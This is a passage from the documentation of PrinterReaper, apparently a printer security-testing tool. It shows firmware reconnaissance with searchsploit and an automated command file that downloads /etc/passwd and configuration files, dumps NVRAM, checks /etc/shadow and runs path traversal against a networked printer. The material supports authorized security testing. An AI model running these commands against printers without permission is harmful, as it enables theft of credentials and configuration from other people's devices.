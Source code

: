 
### Example 9: Firmware Information Gathering

**Scenario**: Gather firmware details for CVE research

```bash
# Get comprehensive firmware info
192.168.1.100:/> firmware_info

Firmware Information:
Manufacturer: HP
Model: LaserJet 4250
Firmware Version: 20190604 3.9.8
Build Date: 2019-06-04
Engine Version: 3.9.8

# Get full configuration
192.168.1.100:/> info config

IN TRAYS [1 250 4 6 7]
IN SIZES [LETTER LEGAL A4 EXEC]
DUPLEX [ON OFF]
PERSONALITY [PCL POSTSCRIPT PJL]
RESOLUTION [600 1200]

# Check for known vulnerabilities
$ searchsploit "HP LaserJet 4250"
$ cve-search "HP LaserJet 4250 3.9.8"
```

---

### Example 10: Automated Testing

**Scenario**: Automate tests using command files

**Create test script** (`security_test.txt`):
```
# PrinterReaper automated security test
id
network
variables
ls
ls /etc
download /etc/passwd
download /etc/config.xml
nvram dump
permissions /etc/shadow
traverse
backup auto_backup.cfg
exit
```

**Execute:**
```bash
# Run automated test
$ python3 printer-reaper.py -i security_test.txt 192.168.1.100 pjl

# Results logged automatically
# Review downloaded files in current directory
$ ls
passwd
config.xml
auto_backup.cfg
```

---